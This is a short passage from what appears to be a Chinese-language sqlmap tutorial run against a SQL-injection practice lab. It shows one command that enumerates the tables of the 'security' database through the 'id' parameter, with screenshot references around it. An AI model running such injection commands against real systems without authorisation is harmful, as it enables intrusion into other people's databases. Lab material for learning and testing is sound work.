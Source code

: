 ![9](/medias/sqlmap/9.png)

使用`-D`参数指定数据库`security`，使用`--tables`参数获取表列表

```bash
sqlmap -u "http://192.168.6.112:8080/Less-1/?id=1" -p id -D security --tables --flush-session --batch
```

![10](/medias/sqlmap/10.png)

